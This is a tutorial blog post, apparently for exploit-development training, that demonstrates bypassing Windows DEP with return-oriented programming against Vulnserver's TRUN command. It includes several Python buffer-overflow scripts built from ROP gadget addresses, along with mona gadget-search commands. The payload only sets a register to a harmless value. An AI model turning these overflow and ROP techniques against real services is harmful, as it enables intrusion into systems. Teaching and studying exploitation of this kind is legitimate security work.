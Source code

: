 :page-slug: bypassing-dep/
:page-date: 2020-08-24
:page-category: attacks
:page-subtitle: Running instructions by reference
:page-tags: osee, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330681/blog/bypassing-dep/cover_lrfinv.webp
:page-alt: Photo by Michael Dziedzic on Unsplash
:page-description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[last blog entry],
we made an introduction to what `DEP` (Data Execution Protection) is
and how it affected common buffer overflow exploits.

In this post,
we'll show a way to bypass `DEP`
using Return-Oriented Programming (`ROP`).

== ROP

When we're writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode).
We then place a shellcode on the stack,
which is finally executed when the `JMP ESP` is performed.

When we perform a `JMP ESP` (or any other general-purpose register),
the program expects to find *instructions* in the address pointed to `ESP`.
With `DEP`, we can't execute instructions on the stack,
but we still control the execution flow.

What would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. In other words, `RETN` expects to find
in the address pointed to `ESP`, a *pointer to an instruction*,
not an *instruction* itself.

As we control the execution flow and write on the stack,
we can do whatever we want.
Let's find a `RETN` instruction:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find up to 10 `RETN` instructions. The result is:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/retn1_gtil26.webp[RETN instructions]

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post].
This time we want to make `EAX` have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop1_z13yrk.gif[RETN]

Here's what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look at the value pointed by `ESP`: `EE05C031`.
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed,
that value `EE05C031` is stored on `EIP`.

What it means is that we can replace the `EE05C031` bytes with an arbitrary
pointer that will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer in the execution environment that performs the
first (`xor eax,eax`) operation:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/find1_it5idv.gif[RETN]

We could find one at `62501162` that points to a `xor eax,eax`.
Let's update our exploit
and place that address instead of the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop2_aacijn.gif[ROP]

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem.
If you look at the animation,
the execution flow was diverted
to where the `xor eax,eax` instruction was placed,
but then we lost control.

We need to make `EAX = 0xdeadbeee`.
There're several ways to do that.
We tried with `xor eax,eax -> add eax,0xdeadbeee`
but another way to do it
is to place the value `0xdeadbeee` on top of the stack
and then perform a `pop eax`.
We also need to regain control of the execution flow.
This can be done by returning to the stack,
so we can execute the last instruction on our shellcode `inc eax`
and make `EAX = 0xdeadbeef`.
That means that we need to find an address to a `pop eax` instruction
followed by a `retn`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/popeax1_ikidee.gif[POP EAX]

We found it at `625011B4`!
Now, do you see why this is called `ROP`?
It's because we always need to return back to the stack
to fetch the next pointer to our next desired instruction.
For the record, any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax # retn` gadget relies on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/popeax2_has6yi.gif[POP EAX]

We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find an `inc eax` pointer to make `EAX = 0xdeadbeef`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/inceax_zeq83l.webp[INC EAX]

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330680/blog/bypassing-dep/rop3_gkn3oz.gif[ROP]

We were able to make `EAX = 0xdeadbeef`
without executing a single instruction on the stack!
We've bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us, `mona` has made this task easy.
You just need to issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` to do the hard work:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330687/blog/bypassing-dep/mona1_wj7c6p.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
a proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex.
I won't spoil the next post,
but ROP chains will be used later
in a more link:../vulnserver-trun-rop/[serious exploitation].

== Conclusions

Here we could see a way to bypass the Data Execution Protection
on a modern Windows system.
However, the shellcode used was very basic
and only demonstrated that `DEP` could be bypassed.
We'll use ROP to create something more complex in the
link:../vulnserver-trun-rop/[next post].
